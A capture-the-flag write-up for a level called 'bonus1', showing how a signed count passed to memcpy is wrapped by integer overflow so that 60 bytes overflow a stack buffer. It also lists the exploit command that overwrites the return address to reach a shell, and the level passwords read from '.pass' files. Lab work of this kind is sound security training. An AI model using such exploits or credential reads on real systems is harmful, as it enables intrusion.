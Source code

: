 # Bonus 1
*password : cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9*

## Analyze
```
$ scp -P 4242 bonus1@192.168.56.108:bonus1 binary/
```
```
char *dest[40];
...
memcpy(dest,*(undefined4 *)(**av + 8),nb * 4);
```

## Buffer overflow : memcpy expoit
objective : execute `/bin/sh`
- nb must be < 10
- compute offset : 8 * 2 + 40 = 56
- we want : (unsigned int)(nb * 4) = 60

unsigned int MAX = 4294967296

(unsigned int)-4294967296 = 0\
(unsigned int)(-1073741824 * 4) = 0\
(unsigned int)((-1073741824 + x / 4)* 4) = x

so for x = 60 :\
(unsigned int)((-1073741824 + 15)* 4) = 60\
(unsigned int)(-1073741809 * 4) = 60\
`nb  = -1073741809`

```
$ /tmp/a.out
0xbffff83f
$ ./bonus1 -1073741809 $(python -c 'print "\x90" * 56 + "\x3f\xf8\xff\xbf"')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

